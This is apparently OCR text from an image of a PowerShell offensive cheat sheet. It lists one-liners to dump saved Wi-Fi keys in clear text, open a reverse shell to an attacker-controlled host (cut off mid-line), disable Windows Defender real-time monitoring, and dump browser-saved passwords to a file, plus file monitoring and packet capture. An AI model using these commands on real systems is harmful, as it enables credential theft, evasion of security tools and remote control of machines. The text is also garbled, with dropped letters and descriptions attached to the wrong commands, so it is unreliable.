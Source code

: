 ```powershell
netsh wlan show profiles | Select-String -Pattern 'All User Profile' -AllMatches | ForEach-Object { $_
-replace 'All User Profile *: ', '' } | ForEach-Object { netsh wlan show profile name="$_" key=clear }
```

### Monitoring File System Changes
Sets up a monitor on the le system to track and log any changes, such as le creation, which can be useful for detecting suspicious activity.

```powershell
$watcher = New-Object System.IO.FileSystemWatcher; $watcher.Path = 'C:\';
$watcher.IncludeSubdirectories = $true; $watcher.EnableRaisingEvents = $true; Register-ObjectEvent
$watcher 'Created' -Action { Write-Host 'File Created: ' $Event.SourceEventArgs.FullPath }
```

### Creating Reverse Shell

Establishes a reverse shell connection to a specied attacker-controlled machine, allowing remote command
execution.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream =
$client.GetStream(); [byte[]]$bytes = 0..65535...
```

### Disabling Windows Defender

Extracts passwords saved in web browsers and saves them to a le, useful for credential harvesting.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Disables Windows Defender’s real-time monitoring feature, which can help in evading detection.
Extracting Browser Saved Passwords
Invoke-WebBrowserPasswordDump | Out-File -FilePath C:\temp\browser_passwords.txt
```

### Conducting Network Sniffing

Sets up a network capture session to sni packets, which can be analyzed for sensitive data or network
troubleshooting.

```powershell
$adapter = Get-NetAdapter | Select-Object -First 1; New-NetEventSession -Name 'Session1' -CaptureMode
SaveToFile -LocalFilePath 'C:\temp\network_capture.etl'; Add-NetEventPacketCaptureProvider -SessionName
'Session1' -Level 4 -CaptureType Both -Enable; Start-NetEventSession -Name 'Session1'; Stop-
NetEventSession -Name 'Session1' after 60
```

### Bypassing AMSI (Anti-Malware Scan Interface)
